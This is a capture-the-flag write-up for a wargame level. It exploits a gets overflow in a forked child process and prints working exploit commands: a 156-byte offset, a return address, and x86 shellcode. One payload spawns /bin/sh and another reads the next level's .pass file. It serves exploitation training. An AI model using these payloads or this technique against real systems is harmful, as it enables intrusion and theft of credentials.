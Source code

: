 ### step 1: Decompile with Ghidra

We get the c source code of the program  

### step 2: Code analysis

- We find only a `main` function 
- In this function we find a vulnerable `gets` function which is not protected and that we will overflow.
- We don't find any `system` function calls so we plan to use a shellcode
- Finally we have a child process launched and it is in this process that the `gets` function is called

important !!
Since we have a parent and a child process we use the gdb command  `set follow-fork-mode child` to set gdb in `follow-child` mode

### step 3 : find the overflow 

```
( python -c 'print("A" * 156) ) | ./level04
```

We find that the overflow is at the 156 character

### step 4 : setup the exploit

Since we now the overflow position we setup our usual shellcode :

( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level04

However this exploit does not work because doesn't work because it switches to the parent process. Even if a shell is launched, we can't access it because the fork leads us to the parent process.

### step 5 : Use a cat shellcode for the final exploit 

D'habitude on utilise le shellcode pour lancer un bash,
Usually we use a sellcode which launches a shell. This time we will use a `cat` shellcode.

Here is a register with many shellcodes for many functions and architectures : https://shell-storm.org/shellcode/index.html

The cat shellcode which we will use : https://shell-storm.org/shellcode/files/shellcode-73.html

We add at the end of this shellcode the pass path and then we have the final exploit which will print us the .pass file :
```
( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 +  "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass")') ./level04
```

